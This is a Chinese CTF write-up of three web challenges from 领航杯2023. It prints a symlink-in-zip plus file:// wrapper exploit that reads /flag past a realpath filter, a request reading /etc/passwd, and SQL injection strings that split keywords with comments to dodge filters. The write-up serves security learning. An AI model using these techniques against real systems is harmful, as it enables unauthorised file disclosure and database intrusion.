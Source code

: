 # 领航杯2023

## uuunzip

注释给了`upload.php`：

```php
// upload.php
<?php
chdir('data');
if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file'])){
    if (file_exists($_GET['file']) and strpos(realpath($_GET['file']) ? : 'flag','flag') === false and strpos($_GET['file'],'flag') === false)
        echo file_get_contents($_GET['file']);
}
```

上传的zip解压到当前目录，然后GET传入文件名读取。`escapeshellarg`不是考点，暂时不用bypass，但好像还真有考点：[这个](https://www.mi1k7ea.com/2019/07/04/%E6%B5%85%E8%B0%88escapeshellarg%E4%B8%8E%E5%8F%82%E6%95%B0%E6%B3%A8%E5%85%A5/)和[这个](https://www.anquanke.com/post/id/107336)

直接读`/upload.php?file=/etc/passwd`可以，读`/proc/1/cmdline`，再读`/start.sh`，知道flag位于`/flag`，显然`environ`没权限。传入`file`参数中不能直接出现flag字样，可以使用软连接，上传的zip中包含指向`/flag`的symbolic link。但realpath函数会解析symlink。realpath函数在官方文档中：

>    **realpath**(string `$path`): string|false
>
>    **realpath()** expands all symbolic links and   resolves references to `/./`, `/../` and extra `/` characters in   the input `path` and returns the canonicalized   absolute pathname.    

软连接这里无法绕过。使用通配符也不行，但是不知道什么原因。

贴一份idawnlight的wp：

```shell
mkdir file:
cd file:
ln -s /flag meow
mkir -p proc/self/cwd/file:/
touch proc/self/cwd/qfile:/meow
cd ..
zip -ry file_flag.zip file:
```

上传后访问`/upload.php?file=file:///proc/self/cwd/file:/meow`即可。

zip构造完后目录结构如下：

![image-20230823193718052](C:\Users\redh3t\AppData\Roaming\Typora\typora-user-images\image-20230823193718052.png)

上传后会在`data`目录下解压出`file:`目录。访问`/upload.php?file=file:///proc/self/cwd/file:/meow`，`file_exists(file:///proc/self/cwd/file:/meow)`会按照`file://`协议解析绝对路径`/proc/self/cwd`就是当前进程`pwd`，也就是`data`目录，所以当前目录下`file:/meow`文件存在；`realpath(file:///proc/self/cwd/file:/meow)`不会解析协议，在当前目录下，最终会得到`/xxx/xxx/xxx/data/file:/proc/self/cwd/file:/meow`，文件也存在且不含flag字样；`strpos('file:///proc/self/cwd/file:/meow','flag')`则由于使用软连接指向`/flag`因此可以bypass。

其实是要想到，realpath对于正常路径是没问题，但是协议也用到了`/`符号，那realpath对于协议就可能直接当路径符号处理了。问了下idawnlight是怎么想到的，他说搜出来的：https://ctftime.org/writeup/31867

只能说多看看国外CTF文章，英文就英文



## filter

印象是`'php://filter/'.$input.'/resource=/dev/null'`，过滤了`/`，要求伪协议返回特定字符串。没一点思路



## login

做了点测试：

```
admin' UniO/**/N SElec/**/t 1,2,3 -- a

admin' o/**/rde/**/r b/**/y 3 -- a

pw

' uni/**/on sele/**/ct 'admin',66
' uni/**/on sele/**/ct 11,66
```

